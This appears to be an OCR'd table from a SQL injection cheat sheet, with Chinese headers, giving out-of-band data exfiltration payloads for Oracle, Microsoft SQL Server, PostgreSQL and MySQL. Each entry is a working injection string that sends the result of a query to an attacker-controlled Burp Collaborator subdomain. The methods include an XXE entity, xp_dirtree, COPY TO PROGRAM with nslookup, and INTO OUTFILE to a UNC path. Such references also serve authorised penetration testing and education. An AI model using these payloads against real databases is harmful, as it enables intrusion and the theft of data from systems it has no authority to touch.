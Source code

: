 | 数据库        | 语句                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`                                                                                                                                                                                                                                                                   |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`                                                                                                                                                                                                                                                                                                                                                          |
| PostgreSQL | <p><code>create OR replace function f() returns void as $$</code></p><p><code>declare c text;</code></p><p><code>declare p text;</code></p><p><code>begin</code></p><p><code>SELECT into p (SELECT YOUR-QUERY-HERE);</code></p><p><code>c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';</code></p><p><code>execute c;</code></p><p><code>END;</code></p><p><code>$$ language plpgsql security definer;</code></p><p><code>SELECT f();</code></p> |
| MySQL      | <p>以下技术仅在Windows系统中有效：</p><p><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'</code></p>                                                                                                                                                                                                                                                                                                                                                                   |
